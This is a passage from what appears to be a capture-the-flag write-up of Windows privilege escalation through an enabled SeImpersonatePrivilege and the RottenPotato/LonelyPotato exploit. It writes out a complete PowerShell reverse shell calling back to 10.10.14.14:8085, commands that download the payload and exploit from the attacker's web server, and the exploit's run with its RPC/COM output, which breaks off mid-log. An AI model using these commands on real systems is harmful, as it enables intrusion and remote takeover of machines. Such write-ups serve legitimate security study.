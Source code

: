     Privilege Name                Description                               State
    ============================= ========================================= ========
    SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
    SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
    SeAuditPrivilege              Generate security audits                  Disabled
    SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
    SeImpersonatePrivilege        Impersonate a client after authentication Enabled
    SeCreateGlobalPrivilege       Create global objects                     Enabled
    SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
    

This means that we can likely use RottenPotato (or LonelyPotato).

First, we’ll upload two files to the server. `MSFRottenPotato.exe` and
`rev.bat`. The exe is from [Decoder’s GitHub page](https://github.com/decoder-
it) for [lonelypotato](https://github.com/decoder-it/lonelypotato). The second
is a simple powershell command to get a shell:

    
    
    powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.14',8085); $stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){ ;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (IEX $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> '; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}; $client.Close()"
    

So, from our low priv shell, grab the files:

    
    
    PS C:\temp> (new-object net.webclient).downloadfile('http://10.10.14.14:8083/rev.bat', 'C:\temp\rev.bat')
    PS C:\temp> (new-object net.webclient).downloadfile('http://10.10.14.14:8083/MSFRottenPotato.exe', 'C:\temp\lp.exe')
    

Now, with a listener going, run it:

    
    
    PS C:\temp> c:\temp\lp.exe * \temp\rev.bat
    connect sock
    CreateIlok: 0 0
    start RPC  connection
    CreateDoc: 0 0
    COM -> bytes received: 116
    RPC -> bytes Sent: 116
    RPC -> bytes received: 84
    COM -> bytes sent: 84
    COM -> bytes received: 24
    RPC -> bytes Sent: 24
    RPC -> bytes received: 132
    COM -> bytes sent: 132
    COM -> bytes received: 127
    RPC -> bytes Sent: 127
    RPC -> bytes received: 196
    COM -> bytes sent: 196
    COM -> bytes received: 243
    RPC -> bytes Sent: 243
    RPC -> bytes received: 192
    COM -> bytes sent: 192
    COM -> bytes received: 72
    RPC -> bytes Sent: 72
    RPC -> bytes received: 60
    COM -> bytes sent: 60
    COM -> bytes received: 42
    RPC -> bytes Sent: 42
    RPC -> bytes received: 56
    COM -> bytes sent: 56